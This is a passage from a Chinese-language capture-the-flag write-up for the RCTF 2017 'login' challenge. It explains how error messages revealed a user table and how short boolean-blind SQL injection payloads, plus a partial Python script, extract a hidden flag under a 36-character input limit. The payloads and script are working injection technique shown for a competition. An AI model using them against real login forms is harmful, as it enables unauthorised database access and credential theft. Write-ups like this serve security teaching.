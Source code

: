 ```
	if count >1:
		print "[success]  "+id
		exit()

	uurl = 'http://rcdn.2017.teamrois.cn/dashboard/basic/destroy/'+id

	r = s.get(uurl, cookies=cookie)
```
![image.png-97.7kB][4]



# login #

登陆处有注入，这里最大的问题在于长度，username只能输入36位长的字符串。而这里也埋下了很多伏笔，题目本身是会返回报错的，我们也能从报错中获得很多信息，比如表名，fuzz列名，但实际上这里的显错理论上并不够做更多的事情(不知道有没有人能构造出来)...理论上来说这里个大坑。

通过显错我们可以得到，表名user，可以测试出的字段id,username,password

接下来就是构造盲注了，为了节省位数，我们需要用户名为一位的账号，不知道是不是故意的，有好几个账号为一个字母，密码也为一个字母的号，随便挑一个。

构造payload
```
"p'||substr(username,1,1)='a"
```
可以fuzz，是否存在用户名的第一位为a的用户，如果存在，那么select出来的密码将和输入的密码不匹配，登陆失败，如果不存在，select出来的密码将为账号p的密码，就会登陆成功。

翻了半天发现username没有收获，后来无意间注入了id为1的账号和密码，才有所收获

```
"p'||id=1&&substr(password,1,1)='a"
```

得到id=1，账号为admin，密码是一个hint
```
hint:flag_is_in_this_table_and_its_column_is_qthd2glz_but_not_the_
```

已经得到了有效信息，后面也没继续跑了

下面我们要注入这个字段qthd2glz，这里又有了问题，这个字段根据猜测应该是用来储存用户密码加密的盐的（后来发现还有假flag），因为长度限制的关系，我们只能通过前后字母的关系来确认判断，通过预设`RCTF{`开头来跑接下来的数据，很快我们就能得到一个全小写的flag.

```
RCTF{s1mpl3_m_err0r_ba3ed_i}
```

但问题在于我们无法知道哪些字母是大写的，这里只能通过hex来判断，但是这样一来，位数就不够用了，只能通过2位的前后关系来判断结果，就好像世界线崩坏了一样，不过配合一些手工，结果很多就出来了。

附上最后使用的脚本

```
import requests

s = requests.session()
ll = "_}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
url = "http://login.2017.teamrois.cn/login"

def test():
	r = s.get(url = url)
	csrf = r.text[1813:1867]
	result="RCTF{S1mpl3_M_Err0r_Ba3eD_I}"

	# for j in xrange(28):
	for i in ll:
		sql = "p'||substr(hex(qthd2glz),"+str((len(result))*2-1)+",4)='"+result[-1:].encode('hex')+i.encode('hex')
		lll = "123456789012345678901234567890123456"
		# RCTF{S1mpl3_m_err0r_ba3ed_i}
		# RCTF{this
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png